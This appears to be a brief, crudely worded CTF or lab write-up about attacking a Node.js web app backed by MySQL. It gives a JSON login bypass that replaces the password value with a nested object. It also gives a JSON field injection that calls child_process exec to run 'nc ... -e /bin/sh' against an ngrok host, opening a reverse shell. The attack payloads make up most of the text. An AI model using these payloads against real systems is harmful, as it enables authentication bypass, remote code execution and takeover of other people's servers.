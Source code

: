The main goal it's try to search for the version of mysql

and bypass de basic login using simple json parameters included like


## Normal login
```
{
  "admin":"admin",
  "password":"password123"
}
```


### And try this
```
{
  "admin":"admin",
  "password":{
    "password":"1"
  }
}
```


in one of the activities for the piece of shit
you cand bypass the child_exec for node, and try to connect
with your tcp console with ngrok and poom, get a shell

```
{
  "activity":"'+(global.process.mainModule.require('child_process').exec('nc 0.tcp.sa.ngrok.io:10464 -e /bin/sh'))+'",
  "health":"91",
  "weight":"4000005",
  "happiness":"93
}
```


